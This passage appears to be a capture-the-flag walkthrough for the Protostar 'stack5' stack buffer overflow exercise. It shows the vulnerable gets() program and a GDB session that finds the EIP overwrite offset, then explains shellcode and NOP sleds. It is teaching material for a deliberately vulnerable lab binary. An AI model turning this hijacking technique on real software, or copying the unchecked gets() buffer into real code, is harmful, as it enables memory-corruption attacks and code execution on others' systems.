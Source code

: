 ## Stack 5

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
This time we have nowhere to redirect the program to, we have to completely hijack it. Like the last level we overwrite the EIP but then we have to redirect it to code we control and have placed somewhere the program can reach.

Like Level 4, let's first determine how far into input we overwrite EIP. Break out the python script again.

```bsh
user@protostar:/tmp$ cat stack5.py
print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4
user@protostar:/tmp$ python stack5.py > stack5.txt
```
Feed it into GDB.
```bsh
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) r < stack5.txt
Starting program: /opt/protostar/bin/stack5 < stack5.txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) i r
eax            0xbffff780       -1073744000
ecx            0xbffff780       -1073744000
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7d0       0xbffff7d0
ebp            0x44444444       0x44444444
esi            0x0      0
edi            0x0      0
eip            0x45454545       0x45454545
```
EIP is overwritten with 4 so we know the EIP is overwritten with the 4 characters after a 76 character buffer. Let's edit our python script.

```python
length = 76
print "A" * length + "E" * 4
```
Now we introduce some shellcode and a NOP sled. Shellcode is assembly instructions we place in memory which when the EIP points to it gives us a shell. A NOP sled is a series of `No Operation (0x90)` assembly instructions which essentially mean go to the next instruction. Since it can be hard to find the exact address of shellcode (affected by env variables, etc), we create a sled down to it so as long as we land anywhere in the sled, our shellcode will execute.
